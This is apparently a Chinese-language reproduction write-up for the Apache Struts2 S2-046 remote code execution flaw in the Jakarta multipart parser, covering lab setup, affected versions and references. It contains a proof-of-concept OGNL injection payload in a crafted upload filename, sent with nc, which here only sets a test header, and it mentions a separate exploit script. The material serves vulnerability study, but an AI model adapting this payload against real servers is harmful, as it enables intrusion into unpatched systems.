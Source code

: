 ## 概述

Struts2 Jakarta 插件存在远程代码执行漏洞

需要在struts.xml中配置 ```<constant name="struts.multipart.parser" value="jakarta-stream" />``` 才能触发。

## 环境搭建

环境一：

	docker pull medicean/vulapps:s_struts2_s2-046

环境二：

将```Struts2FileUpload.war``` war 包部署在tomcat，tomcat自动解压。

访问路径：http://ip:port/Struts2FileUpload_war/doUpload.action


## 影响版本

基于Jakarta的文件上传Multipart解析器

Struts 2.3.5-Struts 2.3.31，Struts 2.5- Struts 2.5.10


## 复现

攻击方式有2种。Content-Disposition 值或不正确的Content-Length 标头(Content-Length header, is bigger than Struts2 maximum allowed size 2GB.)执行RCE攻击。如果Content-Disposition / Content-Length 值无效，则会引发异常，然后将其用于向用户显示错误消息。

### poc

	export payload="POST /doUpload.action HTTP/1.1\r\nHost: youguess\r\nContent-Length: 10485760\r\nCache-Control: max-age=0\r\nContent-Type: multipart/form-data; boundary=----WebKitFormBoundaryaaa\r\nConnection: close\r\n\r\n------WebKitFormBoundaryaaa\r\nContent-Disposition: form-data; name=\"upload youguess\"; filename=\"%{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('X-Test','lee')}\"\r\n\r\n"

	echo -e "$payload" | nc ip 8083

![](1.png)

### exp

见 exp.py

## 参考资料

[Struts2-046: A new vector](https://community.microfocus.com/t5/Security-Research-Blog/Struts2-046-A-new-vector/ba-p/226779#)

https://github.com/vulhub/vulhub/tree/master/struts2/s2-046

https://cwiki.apache.org/confluence/display/WW/S2-046